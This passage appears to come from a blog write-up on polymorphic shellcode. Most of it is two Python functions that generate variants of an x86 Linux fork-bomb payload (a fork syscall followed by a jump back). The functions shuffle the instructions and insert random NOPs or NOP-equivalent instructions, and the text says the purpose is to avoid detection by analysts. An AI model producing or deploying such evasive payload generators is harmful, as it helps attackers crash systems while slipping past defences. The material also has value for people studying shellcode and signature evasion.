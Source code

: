 So we can inject some NOPs in between each instructions but creating a sled,
since it would be easy for an analyst to detect.


{%highlight asm%}
def fork_nop_dope():
    init_blk =["\\x31\\xc0"];
    setup_blk=["\\xb0\\x02" ];

    n = randint(0, 3); 
    init_nop_blk = ["\\x90"]*(n/3)
    setup_nop_blk = ["\\x90"]*(n*2/3)

    init_blk.extend(init_nop_blk)
    setup_blk.extend(setup_nop_blk)

    shuffle(init_blk);
    shuffle(setup_blk);

    jmp_adj = 255 - byte_len(init_blk) - byte_len(setup_blk) - 3

    return "".join(init_blk)+"".join(setup_blk)+"\\xcd\\x80\\xeb\\x"+format(jmp_adj, '02x');


{%endhighlight%}


### Add some NOP equivalent instruction

To solve this, I used the same NOP equivalent instructions used in execve()
shellcode.

The python script used to create polymorphic versions using this strategy is
this one. A big improvement can be rewriting the JMP instruction with some jump
equivalent, maybe adding some always true condition.

{%highlight python%}
def kill_nop_super_dope():

    init_blk =["\\x31\\xc0"];
    setup_blk=["\\xb0\\x02" ];

    nop_blk=["\\x90", "\\x83\\xf8\\x$$", "\\x83\\xfb\\x??", "\\x83\\xf9\\x%%", "\\x87\\xdb", "\\x87\\xc9"]

    shuffle(nop_blk)
    n = randint(0, 10); 
    init_nop_blk = nop_blk[0:(n/3)]
    shuffle(nop_blk)
    setup_nop_blk = nop_blk[0:(n*2/3)]


    init_blk.extend(init_nop_blk)
    setup_blk.extend(setup_nop_blk)

    shuffle(init_blk);
    shuffle(setup_blk);

    jmp_adj = format((255 - byte_len(init_blk) - byte_len(setup_blk) - 3), '02x')

    shellcode="".join(init_blk)+"".join(setup_blk)+"\\xcd\\x80\\xeb\\x"+jmp_adj;

    par = randint(1,255);
    shellcode=shellcode.replace("$$", str(format(par, 'x')));
    par = randint(1,255);
    shellcode=shellcode.replace("??", str(format(par, 'x')));
    par = randint(1,255);
    shellcode=shellcode.replace("%%", str(format(par, 'x')));
    return shellcode

{%endhighlight%}

